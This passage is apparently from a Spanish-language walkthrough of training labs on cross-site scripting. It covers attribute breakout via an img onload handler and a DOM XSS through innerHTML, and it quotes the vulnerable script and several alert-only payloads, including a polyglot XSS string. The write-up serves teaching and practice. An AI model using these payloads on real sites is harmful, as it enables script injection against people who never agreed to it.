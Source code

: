 ```
<img src=”/resources/images/tracker.gif?searchTerms=blog”>
```

Lo que haré será añadir un parámetro `onload` a la imagen ( al elemento img ), de modo que quede algo como esto:

```
<img src=”/resources/images/tracker.gif?searchTerms=blog” onload=”alerta()” >
```

Para ello he de cerrar las comillas tras la palabra blog, y luego añadir `onload=”alert('1')` (las comillas de después las añadirá la función. Por tanto lo que tengo que escribir en el buscado es:

```
blog" onload="alert('1')
```

# Lab #4: DOM XSS in innerHTML sink using source location.search<a id="lab4"></a>

Parecido al anterior, pero en esta ocasión utiliza un `innerHTML` para añadir contenidos a un “div” según lo que le mandemos ( según lo que encuentre en `location.search`). Un poco enrevesado, pero voy al lab y seguro que queda más claro.

Lo primero que compruebo es que hay otro script que es:
```

function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
                        
```

Si busco la palabra “blog”, añade al html esto:
                        
```
<span id=”searchMessage”>blog</span>
                        
```

Lo primero que intento es cerrar el `<span>` con otro `</span>` y añadir un script con la alerta. 

```
</span><script>alert('1')</script>
```

Pero no funciona, ya que ignora la etiqueta de cierre. Así que me vengo arriba y añado un [Polygot text XSS Payload](https://twitter.com/garethheyes/status/997466212190781445) que es un script que suele funcionar:

```
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```
